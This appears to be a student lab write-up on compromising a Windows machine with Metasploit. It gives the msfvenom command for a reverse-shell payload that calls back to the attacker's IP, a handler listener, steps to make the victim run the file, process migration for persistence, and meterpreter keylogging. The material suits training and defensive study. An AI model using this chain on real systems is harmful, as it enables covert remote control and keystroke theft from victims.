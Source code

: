 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![Screenshot 2024-10-28 155116](https://github.com/user-attachments/assets/1d9adda2-6b08-43e5-9ba0-0a0b6182a123)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![Screenshot 2024-10-28 155126](https://github.com/user-attachments/assets/c4186dc4-8a67-4130-8402-2c71843126db)


copy the fun.exe into the apache /var/www/html folder
![Screenshot 2024-10-28 155134](https://github.com/user-attachments/assets/6c659000-a73b-426d-8123-498e32c9c84c)


copy the fun.exe into the apache /var/www/html folder
![Screenshot 2024-10-28 155142](https://github.com/user-attachments/assets/a8eff1cc-a7ff-4448-aa55-ef705268b9d9)
Check the status of apache2
![Screenshot 2024-10-28 155151](https://github.com/user-attachments/assets/bb0992ea-2970-4c8b-91c9-19d6c0ccdcc1)

Invoke msfconsole:
![Screenshot 2024-10-28 155213](https://github.com/user-attachments/assets/e3ba9239-c20d-4d12-8bbf-ade55975613f)
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
![Screenshot 2024-10-28 155231](https://github.com/user-attachments/assets/7cab5bb0-884b-4c47-920e-dcf2ff56d355)


Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![Screenshot 2024-10-28 155241](https://github.com/user-attachments/assets/fcd4b7b8-bd68-4e03-aa46-32db3bf54d43)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
![Screenshot 2024-10-28 155249](https://github.com/user-attachments/assets/6483cae8-853a-4258-a5b4-ca7dfb3eaff1)

Bypass any warning boxes, double-click the file, and allow it to run.
![Screenshot 2024-10-28 155257](https://github.com/user-attachments/assets/9896537b-3889-4b0b-a4c6-4e207032efc1)

On kali give the command exploit
![Screenshot 2024-10-28 155305](https://github.com/user-attachments/assets/1b0473a9-1a0b-4580-a72e-b740707c431f)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
![Screenshot 2024-10-28 155315](https://github.com/user-attachments/assets/152350c4-c89c-4f6f-993e-40f2fc6a6c78)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![Screenshot 2024-10-28 155331](https://github.com/user-attachments/assets/7d75b10e-92e0-4187-9582-43bc29f179b7)
![Screenshot 2024-10-28 155342](https://github.com/user-attachments/assets/0159dde1-ca2a-48e9-8994-cb0904b78867)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2024-10-28 155352](https://github.com/user-attachments/assets/9e3e8016-4b29-47ab-b844-0b6486daefaf)



keyscan_dump Shows the keystrokes captured so far
![Screenshot 2024-10-28 155352](https://github.com/user-attachments/assets/ee98d8b7-14b4-4f2a-9514-1d80dc59ac1e)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
